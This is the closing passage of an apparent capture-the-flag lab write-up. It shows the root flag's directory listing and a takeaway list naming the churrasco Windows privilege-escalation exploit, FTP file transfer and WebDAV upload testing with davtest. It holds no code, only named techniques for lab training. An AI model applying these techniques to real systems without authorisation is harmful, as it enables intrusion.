Volume Serial Number is 246C-D7FE
Directory of C:\Documents and Settings\Administrator\Desktop
04/12/2017 04:28 PM <DIR> .
04/12/2017 04:28 PM <DIR> ..
04/12/2017 04:29 PM 32 root.txt
1 File(s) 32 bytes
2 Dir(s) 18,086,490,112 bytes free
Takeway
That box is really not that hard if you’re using metasploit, but doing it OSCP-style taught me a few things:
- new Windows privilege escalations, especially the churrasco exploit.
- A new way to transfer files on a Windows boxes with FTP.
- my first encounter with WebDAV: use davtest for recon, and test if you can
PUTfiles on the target.